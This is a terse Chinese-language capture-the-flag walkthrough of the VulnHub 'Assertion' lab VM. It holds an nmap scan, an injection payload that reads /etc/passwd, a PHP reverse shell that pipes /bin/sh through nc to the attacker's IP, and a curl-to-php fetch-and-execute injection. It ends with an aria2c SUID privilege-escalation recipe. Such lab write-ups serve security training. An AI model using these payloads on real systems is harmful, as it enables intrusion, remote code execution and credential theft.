

# Assertion101

> https://download.vulnhub.com/assertion/Assertion-1.0.1.rar

靶场IP：`192.168.2.138`

扫描对外端口服务

```
┌──(root💀kali)-[~]
└─# nmap -p1-65535 -sV 192.168.2.138                                                                                                                                                                                                  
Starting Nmap 7.91 ( https://nmap.org ) at 2022-09-12 09:50 EDT
Nmap scan report for 192.168.2.138
Host is up (0.0011s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 00:0C:29:79:7E:97 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.73 seconds

```

访问80端口


文件包含漏洞

```
' and die(show_source('/etc/passwd')) or '
```



新建反弹shell

```
<?php
    system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.2.129 1234 >/tmp/f');
?>
```

```
' and die(system("curl http://192.168.2.129/shell.php|php")) or '
```


aria2c的suid

```
sudo install -m =xs $(which aria2c) .

COMMAND='id'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
./aria2c --on-download-error=$TF http://x
```

